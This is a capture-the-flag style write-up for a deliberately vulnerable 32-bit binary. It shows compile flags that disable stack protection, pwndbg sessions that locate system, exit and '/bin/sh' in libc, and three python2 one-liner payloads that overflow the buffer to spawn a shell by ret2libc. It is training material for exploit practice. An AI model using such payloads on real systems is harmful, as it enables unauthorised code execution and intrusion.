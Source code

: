 ### How to compile binary (disable ASLR):

`gcc roplevel2.c -o roplevel2 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> p exit
$1 = {<text variable, no debug info>} 0x8049060 <exit@plt>
pwndbg> p system
$2 = {<text variable, no debug info>} 0x8049050 <system@plt>
```

```
┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ strings -a -t x /usr/lib/i386-linux-gnu/libc-2.33.so | grep "/bin/sh"                                                                   
 18fb62 /bin/sh

┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ gdb-pwndbg roplevel2
Reading symbols from roplevel2...
(No debugging symbols found in roplevel2)
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2 

Breakpoint 1, 0x080491f0 in main ()
...
...
...
pwndbg> info proc mappings
process 5091
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x8049000  0x804a000     0x1000     0x1000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804a000  0x804b000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804b000  0x804c000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	0xf7db9000 0xf7dd6000    0x1d000        0x0 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7dd6000 0xf7f2e000   0x158000    0x1d000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7f2e000 0xf7fa1000    0x73000   0x175000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa1000 0xf7fa2000     0x1000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa2000 0xf7fa4000     0x2000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa4000 0xf7fa6000     0x2000   0x1ea000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa6000 0xf7fad000     0x7000        0x0 
	0xf7fc3000 0xf7fc5000     0x2000        0x0 
	0xf7fc5000 0xf7fc9000     0x4000        0x0 [vvar]
	0xf7fc9000 0xf7fcb000     0x2000        0x0 [vdso]
	0xf7fcb000 0xf7fcc000     0x1000        0x0 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fcc000 0xf7fee000    0x22000     0x1000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fee000 0xf7ffb000     0xd000    0x23000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffb000 0xf7ffd000     0x2000    0x2f000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffd000 0xf7ffe000     0x1000    0x31000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
pwndbg> x/s 0xf7db9000+0x18fb62
0xf7f48b62:	"/bin/sh"
```

```
pwndbg> find &system,+99999999,"/bin/sh"
warning: Unable to access 16007 bytes of target memory at 0x8049050, halting search.
Pattern not found.
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> c
The program is not being run.
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
...
...
...
pwndbg> find &system,+99999999,"/bin/sh"
0xf7f48b62
warning: Unable to access 16000 bytes of target memory at 0xf7faa5ea, halting search.
1 pattern found.
```

### Methodolody:

Find gadgets to return to a System Function

### Answer:

Using pure ret2libc:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2
```

Using gadget() function:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xda\x91\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2
```

Using `ROPGadget --binary ./roplevel2` (`0x080492c2 : sub al, 0x24 ; ret`):

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xc2\x92\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2
```

### Notes:

Based on the design of this challenge, the gadget function is not suitable to solve the puzzle as x86 stores parameters to functions on the stack while Mach-O stores parameters to functions in lower registers. I have since edited the challenge to allow it to be exploitable on a Linux OS via the gadget function or finding gadgets within the binary itself as well :). Due to the nature of this exploit, you can even just use a generic ret2libc attack.

### References:

https://icyphox.sh/blog/rop-on-arm/

https://developer.arm.com/documentation/dui0068/b/Thumb-Instruction-Reference/Thumb-memory-access-instructions/PUSH-and-POP

https://developer.arm.com/documentation/dui0041/c/Babbfdih#
